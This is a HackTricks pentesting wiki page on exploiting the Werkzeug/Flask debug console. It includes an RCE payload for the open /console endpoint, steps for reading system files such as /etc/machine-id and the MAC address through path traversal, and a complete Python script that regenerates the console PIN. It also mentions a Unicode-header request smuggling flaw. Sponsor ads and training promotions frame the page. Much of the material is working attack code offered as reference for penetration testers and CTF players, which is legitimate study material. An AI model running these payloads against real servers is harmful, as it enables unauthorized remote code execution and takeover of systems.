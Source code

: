 # Werkzeug / Flask Debug

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**Instantly available setup for vulnerability assessment & penetration testing**. Run a full pentest from anywhere with 20+ tools & features that go from recon to reporting. We don't replace pentesters - we develop custom tools, detection & exploitation modules to give them back some time to dig deeper, pop shells, and have fun.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Console RCE

If debug is active you could try to access to `/console` and gain RCE.

```python
__import__('os').popen('whoami').read();
```

![](<../../.gitbook/assets/image (117).png>)

There is also several exploits on the internet like [this ](https://github.com/its-arun/Werkzeug-Debug-RCE)or one in metasploit.

## Pin Protected - Path Traversal

In some occasions the **`/console`** endpoint is going to be protected by a pin. If you have a **file traversal vulnerability**, you can leak all the necessary info to generate that pin.

### Werkzeug Console PIN Exploit

Force a debug error page in the app to see this:

```
The console is locked and needs to be unlocked by entering the PIN.
You can find the PIN printed out on the standard output of your
shell that runs the server
```

A message regarding the "console locked" scenario is encountered when attempting to access Werkzeug's debug interface, indicating a requirement for a PIN to unlock the console. The suggestion is made to exploit the console PIN by analyzing the PIN generation algorithm in Werkzeug’s debug initialization file (`__init__.py`). The PIN generation mechanism can be studied from the [**Werkzeug source code repository**](https://github.com/pallets/werkzeug/blob/master/src/werkzeug/debug/\_\_init\_\_.py), though it is advised to procure the actual server code via a file traversal vulnerability due to potential version discrepancies.

To exploit the console PIN, two sets of variables, `probably_public_bits` and `private_bits`, are needed:

#### **`probably_public_bits`**

* **`username`**: Refers to the user who initiated the Flask session.
* **`modname`**: Typically designated as `flask.app`.
* **`getattr(app, '__name__', getattr(app.__class__, '__name__'))`**: Generally resolves to **Flask**.
* **`getattr(mod, '__file__', None)`**: Represents the full path to `app.py` within the Flask directory (e.g., `/usr/local/lib/python3.5/dist-packages/flask/app.py`). If `app.py` is not applicable, **try `app.pyc`**.

#### **`private_bits`**

* **`uuid.getnode()`**: Fetches the MAC address of the current machine, with `str(uuid.getnode())` translating it into a decimal format.
  * To **determine the server's MAC address**, one must identify the active network interface used by the app (e.g., `ens3`). In cases of uncertainty, **leak `/proc/net/arp`** to find the device ID, then **extract the MAC address** from **`/sys/class/net/<device id>/address`**.
  *   Conversion of a hexadecimal MAC address to decimal can be performed as shown below:

      ```python
      # Example MAC address: 56:00:02:7a:23:ac
      >>> print(0x5600027a23ac)
      94558041547692
      ```
* **`get_machine_id()`**: Concatenates data from `/etc/machine-id` or `/proc/sys/kernel/random/boot_id` with the first line of `/proc/self/cgroup` post the last slash (`/`).

<details>

<summary>Code for `get_machine_id()`</summary>

```python
def get_machine_id() -> t.Optional[t.Union[str, bytes]]:
    global _machine_id

    if _machine_id is not None:
        return _machine_id

    def _generate() -> t.Optional[t.Union[str, bytes]]:
        linux = b""

        # machine-id is stable across boots, boot_id is not.
        for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
            try:
                with open(filename, "rb") as f:
                    value = f.readline().strip()
            except OSError:
                continue

            if value:
                linux += value
                break

        # Containers share the same machine id, add some cgroup
        # information. This is used outside containers too but should be
        # relatively stable across boots.
        try:
            with open("/proc/self/cgroup", "rb") as f:
                linux += f.readline().strip().rpartition(b"/")[2]
        except OSError:
            pass

        if linux:
            return linux

        # On OS X, use ioreg to get the computer's serial number.
        try:
```

</details>

Upon collating all necessary data, the exploit script can be executed to generate the Werkzeug console PIN:

Upon collating all necessary data, the exploit script can be executed to generate the Werkzeug console PIN. The script uses the assembled `probably_public_bits` and `private_bits` to create a hash, which then undergoes further processing to produce the final PIN. Below is the Python code for executing this process:

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'web3_user',  # username
    'flask.app',  # modname
    'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
    '279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
    'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

This script produces the PIN by hashing the concatenated bits, adding specific salts (`cookiesalt` and `pinsalt`), and formatting the output. It's important to note that the actual values for `probably_public_bits` and `private_bits` need to be accurately obtained from the target system to ensure the generated PIN matches the one expected by the Werkzeug console.

{% hint style="success" %}
If you are on an **old version** of Werkzeug, try changing the **hashing algorithm to md5** instead of sha1.
{% endhint %}

## Werkzeug Unicode chars

As observed in [**this issue**](https://github.com/pallets/werkzeug/issues/2833), Werkzeug doesn't close a request with Unicode characters in headers. And as explained in [**this writeup**](https://mizu.re/post/twisty-python), this might cause a CL.0 Request Smuggling vulnerability.

This is because, In Werkzeug it's possible to send some **Unicode** characters and it will make the server **break**. However, if the HTTP connection was created with the header **`Connection: keep-alive`**, the body of the request won’t be read and the connection will still be open, so the **body** of the request will be treated as the **next HTTP request**.

## Automated Exploitation

{% embed url="https://github.com/Ruulian/wconsole_extractor" %}

## References

* [**https://www.daehee.com/werkzeug-console-pin-exploit/**](https://www.daehee.com/werkzeug-console-pin-exploit/)
* [**https://ctftime.org/writeup/17955**](https://ctftime.org/writeup/17955)
* [**https://github.com/pallets/werkzeug/issues/2833**](https://github.com/pallets/werkzeug/issues/2833)
* [**https://mizu.re/post/twisty-python**](https://mizu.re/post/twisty-python)

<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**Instantly available setup for vulnerability assessment & penetration testing**. Run a full pentest from anywhere with 20+ tools & features that go from recon to reporting. We don't replace pentesters - we develop custom tools, detection & exploitation modules to give them back some time to dig deeper, pop shells, and have fun.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
